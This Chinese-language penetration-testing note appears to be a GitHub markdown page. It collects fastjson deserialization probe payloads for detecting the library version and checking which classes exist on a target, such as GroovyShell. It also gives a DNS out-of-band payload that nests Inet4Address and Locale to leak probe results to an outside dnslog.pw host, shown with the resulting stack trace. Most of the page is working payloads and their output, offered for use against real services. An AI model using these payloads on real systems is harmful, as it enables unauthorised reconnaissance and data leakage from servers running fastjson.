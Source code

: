 ## Ref
- Hacking JSON by 浅蓝 at KCon2022

### 版本探测
```json
{"@type":"java.lang.AutoCloeable"
```
另外一个：
```json
[{"a":"a\x]
```

Ref:
- [application/json [{"a":"a\x] 的妙用](https://mp.weixin.qq.com/s/n2zOPvaBMBFYJgsv_fcCww)

### class探测方法一
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187075915-8aba39ac-f013-42dd-88df-55c002b1fd48.png)

![image](https://user-images.githubusercontent.com/30398606/187075936-ee5058b5-b0f1-488f-8a4f-fab9eb1f31c4.png)


### class探测方法二
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell"}
```
和
```json
{"@type":"java.lang.Class",
"val":"groovy.lang.GroovyShell1"}
```

![image](https://user-images.githubusercontent.com/30398606/187076001-59d835c5-b43c-4178-84dc-23bed90d2ff9.png)

![image](https://user-images.githubusercontent.com/30398606/187076020-5343e930-4c27-4b43-804b-caa2b99db350.png)

总之不存在的类就会报空指针异常，或者返回null的逻辑。

### class探测方法三
通过`java.util.Locale`类的language和country字段的连接。
```java
new Locale("a", "b").toString() == a_B
```
带出dnslog，不过这个域名里有大括号，不是每个dnslog服务都支持的。
用这个：http://dnslog.pw/dns/

```json
{"@type":"java.net.Inet4Address",
"val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"java.io.InputStream"}},"country":"x.fastjson.4wjna9kk.dnslog.pw"}}}
```
抛出异常`com.alibaba.fastjson.JSONException: deserialize inet adress error`：调用栈
```java
java.net.UnknownHostException: {"1":"java.io.inputstream"}_X.FASTJSON.4WJNA9KK.DNSLOG.PW
	at java.net.Inet6AddressImpl.lookupAllHostAddr(Native Method) ~[na:1.8.0_202]
	at java.net.InetAddress$2.lookupAllHostAddr(InetAddress.java:929) ~[na:1.8.0_202]
	at java.net.InetAddress.getAddressesFromNameService(InetAddress.java:1324) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName0(InetAddress.java:1277) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1193) ~[na:1.8.0_202]
	at java.net.InetAddress.getAllByName(InetAddress.java:1127) ~[na:1.8.0_202]
	at java.net.InetAddress.getByName(InetAddress.java:1077) ~[na:1.8.0_202]
	at com.alibaba.fastjson.serializer.MiscCodec.deserialze(MiscCodec.java:335) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:395) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1401) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1367) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:183) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:193) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parse(JSON.java:149) ~[fastjson-1.2.70.jar:na]
	at com.alibaba.fastjson.JSON.parseObject(JSON.java:254) ~[fastjson-1.2.70.jar:na]
```
但是碰到一个目标在这三个方法都报错：
```java
JSON parse error: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto; nested exception is com.alibaba.fastjson.JSONException: type not match. java.lang.Character -> com.xxx.yyy.security.service.dto.AuthUserDto
```

后来自己大环境测试，知道了这里的代码应该是：
```
User ob = JSON.parseObject(params, User.class);
```
自己搭环境的截图：
![image](https://user-images.githubusercontent.com/30398606/187132282-7c178714-d126-45e6-9e49-023db25d7bfe.png)
